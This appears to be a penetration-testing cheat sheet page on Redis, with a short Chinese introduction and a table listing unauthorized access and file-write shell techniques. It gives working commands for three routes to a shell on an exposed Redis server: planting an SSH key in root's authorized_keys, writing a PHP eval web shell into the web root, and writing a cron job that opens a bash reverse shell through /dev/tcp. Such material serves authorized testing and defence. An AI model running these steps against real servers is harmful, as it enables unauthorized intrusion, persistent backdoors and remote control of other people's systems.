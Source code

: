 # Redis

<details>

<summary>Introduction</summary>

Redis 是一个开源的内存键值存储数据库，也被称为数据结构服务器。它支持多种数据结构，如字符串、哈希表、列表、集合和有序集合等，提供了丰富的操作命令来操作这些数据结构。Redis 的特点包括高性能、持久化、复制、集群和支持丰富的数据类型等。由于其快速的读写速度和丰富的功能，Redis 被广泛应用于缓存、会话存储、消息队列、排行榜和实时统计等场景中。它也被用作分布式锁和发布/订阅系统的解决方案。

</details>

<table><thead><tr><th width="178">Name</th><th>Redis</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>6379</td></tr><tr><td><strong>GetShell?</strong></td><td>Yes</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>Unauthorized Access</li><li>File Write (GetShell)</li></ul></td></tr></tbody></table>

## Unauthorized Access

{% code title="Environment" %}
```bash
HOST=; PORT=6379; # TARGET HOST INFO
```
{% endcode %}

{% code title="Validation" %}
```
1) telnet $HOST $PORT
2) Enter "INFO"
```
{% endcode %}

If the target host returns Redis-related information, it indicates that unauthorized access is allowed.

## File Write

{% hint style="info" %}
Writing files may affect the server normal operation. Prioritize writing the SSH public key.
{% endhint %}

{% code title="Environment" %}
```bash
HOST=; PORT=6379; # TARGET HOST INFO
```
{% endcode %}

```bash
# (1) SSH public key

ssh-keygen -t rsa
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/id_rsa.pub
cat /tmp/id_rsa.pub | redis-cli -h $HOST -p $PORT -x set crackit
rm /tmp/id_rsa.pub

redis-cli -h $HOST -p $PORT

# In redis CLI
CONFIG SET DIR /root/.ssh/
CONFIG SET DBFILENAME "authorized_keys"
SAVE

ssh -i ~/.ssh/id_rsa root@HOST
redis-cli -h $HOST -p $PORT

# (2) WebShell
CONFIG SET DIR /var/www/html
CONFIG SET DBFILENAME exec.php
SET crackit "\n\n\n\n<?php @eval($_REQUEST['exec']);?>\n\n\n\n"
SAVE

# (3) crontab
CONFIG SET DIR /etc/cron.d
CONFIG SET DBFILENAME reverse_shell
SET crackit "\n\n\n\n* * * * * root bash -i >& /dev/tcp/HOST/PORT 0>&1\n\n\n\n"
SAVE
```

## Graphical Tool

[Another Redis Desktop Manager](https://goanother.com/cn/)

